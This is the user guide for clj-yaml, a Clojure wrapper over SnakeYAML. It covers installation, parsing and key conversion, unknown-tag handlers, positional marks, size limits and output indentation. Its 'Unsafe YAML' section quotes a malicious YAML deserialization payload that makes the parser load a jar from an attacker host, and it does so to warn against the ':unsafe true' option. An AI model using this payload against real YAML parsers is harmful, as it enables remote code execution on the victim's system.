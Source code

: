 = User Guide
:toclevels: 5
:toc:
// DO NOT EDIT: the lib-version parameter is automatically updated by bb publish
:lib-version: 1.0.29

== Audience
You want to learn more about how to use the clj-yaml library from your app, library or script.

== Introduction

Clj-yaml is a Clojure wrapper over https://bitbucket.org/snakeyaml/snakeyaml/src/master/[SnakeYAML].

=== History

- Feb 2010 - https://github.com/lancepantz/clj-yaml[lancepantz/clj-yaml] is created
- Dec 2013 - https://github.com/CircleCI-Archived/clj-yaml[circleci/clj-yaml] picks up the torch
- Jan 2019 - clj-commons adopts clj-yaml where it can get the ongoing love and care that it needs

== Installation

=== Babashka

No installation required.
Clj-yaml is built into babashka.

=== Leiningen/Boot

[source,clojure,subs="attributes+"]
----
[clj-commons/clj-yaml "{lib-version}"]
----

=== Clojure CLI/`deps.edn`

[source,clojure,subs="attributes+"]
----
clj-commons/clj-yaml {:mvn/version "{lib-version}"}
----

=== As Git Dependency

To get the latest changes that are not yet released to Clojars, you can use this library as a git dependency:

[source,clojure]
----
$ cat deps.edn
{:deps {clj-commons/clj-yaml {:git/url "https://github.com/clj-commons/clj-yaml"
                              :git/sha "05eaca35c34c092ffdd2e620ef07962ce147a88b"}}}

$ clj -X:deps prep
$ clj -M -e "(require '[clj-yaml.core :as yaml])"
----

Replace the `:git/sha` value as appropriate.

== Usage

=== Internal vs Public API

When the clj-commons/clj-yaml team adopted clj-yaml it made some assumptions about the clj-yaml public API.
It turns out folks are using more of clj-yaml than we originally expected.

We encourage you to stick to the higher level functions as documented in the `clj-yaml.core` namespace.

If you do find yourself needing to use the lower level functions, please let us know.
Perhaps you are doing so to overcome a limitation in clj-yaml that we could address to everyone's benefit.

Note that:

* babashka only exposes the higher level functions.
* this user guide only describes and promotes usage of higher level functions

=== Quick Start

[source,clojure]
----
(require '[clj-yaml.core :as yaml])

(yaml/generate-string
  [{:name "John Smith", :age 33}
   {:name "Mary Smith", :age 27}])
;; => "- {name: John Smith, age: 33}\n- {name: Mary Smith, age: 27}\n"

(yaml/parse-string "
- {name: John Smith, age: 33}
- name: Mary Smith
  age: 27
")
;; => ({:name "John Smith", :age 33}
;;     {:name "Mary Smith", :age 27})
----

=== Parsing YAML

[[key-conv]]
==== Key Conversion

By default, YAML keys are converted to Clojure keywords. To prevent this, include the `:keywords false` option when calling `parse-string` or `parse-stream` functions:

[source,clojure]
----
(yaml/parse-string "
- {name: John Smith}
" :keywords false)
;; => ({"name" "John Smith"})
----

The `:keywords` option defaults to `true` for historical reasons.
When clj-yaml detects a key that cannot be converted to a Clojure keyword, it will leave it unconverted.
Detection and conversion is not sophisticated and can result in keywords that are illegal and unreadable.

For this reason we added the `:key-fn` option.
This allows you to take control and do whatever conversion makes sense for your YAML key inputs.

You can use `:key-fn` to do something similar to `:keywords true`:

[source,clojure]
----
(yaml/parse-string "
- {name: John Smith}
" :key-fn #(-> % :key keyword))
;; => ({:name "John Smith"})
----

Or, something entirely different:

[source,clojure]
----
(require '[clojure.string :as string])

(yaml/parse-string "
- {name: John Smith}
" :key-fn #(-> % :key string/upper-case string/reverse))
;; => ({"EMAN" "John Smith"})
----


==== Unknown tags [[unknown-tags]]
Unknown tags can be handled by passing a handler function via the `:unknown-tag-fn` option.
The handler function is provided a map which includes `:tag` and `:value` keys.
Note that the value passed to the `unknown-tag-fn` is a string if it's a scalar, regardless of the quoting (or lack thereof) of the scalar value.

[source,clojure]
----
;; drop unknown tags
(yaml/parse-string "!Base12 10" :unknown-tag-fn :value
;; => "10"

;; or do some smart convertion
(yaml/parse-string "!Base12 10"
                   :unknown-tag-fn (fn [{:keys [tag value]}]
                                      (if (= "!Base12" tag)
                                          (Integer/parseInt value 12)
                                          value)))
;; => 12
----

==== Unsafe YAML [[unsafe]]
Clj-yaml optionally supports the creation of Java classes.
This is considered unsafe.

IMPORTANT: Be very wary of specifying `:unsafe true` unless you completely trust your YAML inputs.
Consider instead using `:unknown-tag-fn` for fine and deliberate control.

An example of some malicious YAML is https://j0vsec.com/post/cve-2021-25738/[well described by J0VSEC].
Here's the dangerous snippet described:

[source, yaml]
----
some_var: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://attacker-server.tld/poc.jar"]]]]
----

Also security related are the `:allow-recursive-keys`, `:max-aliases-for-collections`, and `:nesting-depth-limit` options.

==== Positional Data [[mark]]
You can ask clj-yaml to return parsed YAML with extra positional data markers via the `:mark true` option.

[source,clojure]
----
(yaml/parse-string "
- name: Mary Smith
  age: 27
" :mark true)
;; => {:start {:line 1, :index 1, :column 0},
;;     :end {:line 3, :index 30, :column 0},
;;     :unmark
;;     ({:start {:line 1, :index 3, :column 2},
;;       :end {:line 3, :index 30, :column 0},
;;       :unmark
;;       {{:start {:line 1, :index 3, :column 2},
;;         :end {:line 1, :index 7, :column 6},
;;         :unmark "name"}
;;        {:start {:line 1, :index 9, :column 8},
;;         :end {:line 1, :index 19, :column 18},
;;         :unmark "Mary Smith"},
;;        {:start {:line 2, :index 22, :column 2},
;;         :end {:line 2, :index 25, :column 5},
;;         :unmark "age"}
;;        {:start {:line 2, :index 27, :column 7},
;;         :end {:line 2, :index 29, :column 9},
;;         :unmark 27}}})}
----

In reality, the `:start` `:end` and `:unmark` maps are internally a record and can be recognized via `marked?` and unwrapped via `unmark`.

==== Document size limit [[size-limit]]

SnakeYAML implementation (that clj-yaml uses for low-level encoding and decoding) imposes the default limit of 3 megabyte document size for security reasons (https://bitbucket.org/snakeyaml/snakeyaml/issues/547/restrict-the-size-of-incoming-data[issue]). If you hit this limitation, you need to explicitly increase the limit by setting the `:code-point-limit` option:

[source,clojure]
----
(parse-string bigger-than-default-limit)
;; Execution error (YAMLException) at org.yaml.snakeyaml.scanner.ScannerImpl/fetchMoreTokens (ScannerImpl.java:342).
;; The incoming YAML document exceeds the limit: 3145728 code points.

(parse-string bigger-than-default-limit :code-point-limit (* 10 1024 1024))
;; outputs the long string
----

=== Generating YAML

==== Dumper Options [[dumper-options]]
Different flow styles (`:auto`, `:block`, `:flow`) allow customization of how YAML is rendered.

To demonstrate, let's setup `some-data` to play with.

[source,clojure]
----
(def some-yaml "
todo:
  issues:
    - name: Fix all the things
      responsible:
        name: Rita
")

(def some-data (yaml/parse-string some-yaml))
----

To select the `:block` flow style:
[source,clojure]
----
(yaml/generate-string some-data :dumper-options {:flow-style :block})
----

results in a string of YAML, that when printed:
[source,yaml]
----
todo:
  issues:
  - name: Fix all the things
    responsible:
      name: Rita
----

The same but with the `:flow` style results in:
[source,yaml]
----
{todo: {issues: [{name: Fix all the things, responsible: {name: Rita}}]}}
----

And finally the `:auto` style (the default) renders:
[source,yaml]
----
todo:
  issues:
  - name: Fix all the things
    responsible: {name: Rita}
----

==== Controlling Indentation

Use `:indent` to control block indentation, to override the default block indent of `2` with `4`:

[source,clojure]
----
(yaml/generate-string some-data :dumper-options {:indent 4
                                                 :flow-style :block})
----

results in:
[source,yaml]
----
todo:
    issues:
    -   name: Fix all the things
        responsible:
            name: Rita
----
Notice that each block is now indented by `4`.

Use `:indicator-indent` to change the indentation of the `-` indicator; by default, it is `0`; let's bump it up to `2`:

[source,clojure]
----
(yaml/generate-string some-data :dumper-options {:indent 4
                                                 :indicator-indent 2
                                                 :flow-style :block})
----

results in:
[source,yaml]
----
todo:
    issues:
      - name: Fix all the things
        responsible:
            name: Rita
----
Notice that the blocks are still indented by 4, but the `-` indicator is now indented by `2`.

Indenting the `-` indicator within the block `:indent` can be limiting.
Sometimes, you'll want to indent `-` blocks more than other blocks.
Specifying `:indent-with-indicator true` makes block indentation for `-` indicators additive; the indicator is still indented by `:indicator-indent`, but its block is indented by `:indent` + `:indicator-indent`.

[source,clojure]
----
(yaml/generate-string some-data :dumper-options {:indent 4
                                                 :indicator-indent 2
                                                 :indent-with-indicator true
                                                 :flow-style :block})
----

results in:
[source,yaml]
----
todo:
    issues:
      -   name: Fix all the things
          responsible:
              name: Rita
----
You'll notice that the `-` indicator is indented by `2`, but its block is now indented by `6` (`4` + `2`).

A common usage of `indent-with-indicator true` is to indent arrays like so:

[source,clojure]
----
(yaml/generate-string some-data :dumper-options {:indent 2
                                                 :indicator-indent 2
                                                 :indent-with-indicator true
                                                 :flow-style :block})
----
results in:

[source,yaml]
----
todo:
  issues:
    - name: Fix all the things
      responsible:
        name: Rita
----
We now have:

* a block indentation of `2` by default
* an `-` indicator indentation of `2`
* a block indentation of `4` for `-` indicator content

[TIP]
====
Unless you are using `:indent-with-indicator`, `:indicator-indent` must always be less than `:indent`.
If `:ident-with-indicator` is 1 less than `:indent`, the `-` indicator will be on a separate line:

[source,clojure]
----
(yaml/generate-string some-data :dumper-options {:indent 2
                                                 :indicator-indent 1
                                                 :flow-style :block})
----
results in:
[source,yaml]
----
todo:
  issues:
   -
    name: Fix all the things
    responsible:
      name: Rita
----
====

[[keyword-args]]
=== Function Options as Keyword Args

You'll notice that clj-yaml functions use keyword args for options.

Clojure 1.11 allows these types of functions to instead be called with a map for the options:

[source,clojure]
----
;; old school
(yaml/parse-string "ok: 42" :keywords false)
;; => {"ok" 42}

;; clojure 1.11 also allows:
(yaml/parse-string "ok: 42" {:keywords false})
;; => {"ok" 42}
----

TIP: If you are using a version of Clojure before v1.11, or you want to stay compatible with older versions of Clojure, you'll need to call these functions the old school way.

=== With GraalVM native-image

Clj-yaml includes a GraalVM native image configuration so that it can compile without any external config.
We run the clj-yaml test suite natively compiled by the current versions of GraalVM.
Older versions of GraalVM are not supported.
